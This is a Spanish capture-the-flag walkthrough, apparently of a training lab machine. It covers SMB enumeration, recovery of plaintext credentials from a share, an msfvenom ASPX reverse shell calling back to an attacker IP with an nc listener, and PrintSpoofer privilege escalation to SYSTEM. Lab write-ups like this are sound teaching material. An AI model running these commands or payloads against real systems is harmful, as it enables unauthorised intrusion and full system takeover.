







# Relevant
## Nmap
 ### Nmap SMB

## Threader3000
Permite ver los puertos abiertos
threader3000

Fuzzing
gobuster dir -u http://10.10.48.117 -w Desktop/common.txt -x php

Enum4linux

SMB
smbmap -H 10.10.48.117

smbclient -L 10.10.48.117

Entramos en el usuario y descargamos el archivo passwords.txt
smbclient //10.10.48.117/nt4wrksv -N

Contenido del archivo

Decodificamos usando CyberChef

Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
Tenemos acceso web al archivo subido en SMB
Creamos una aspx reverse shell, para subirla al servidor
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.67.209 LPORT=53 -f aspx -o pwn.aspx

Subimos el archivo
Nos conectamos a la reverse shell
curl http://10.10.179.154:49663/nt4wrksv/pwn.aspx
nc -nvlp 53


Buscamos el archivo user.txt
Vemos nuestros privilegios

Encontramos SeImpersonatePrivilege, existe un exploit que nos permite explotar esta vulnerabilidad
Clonamos el siguiente repositorio
git clone https://github.com/dievus/printspoofer.git
Subimos el .exe al servidor samba
Lo ejecutamos y ya seremos nt authority\system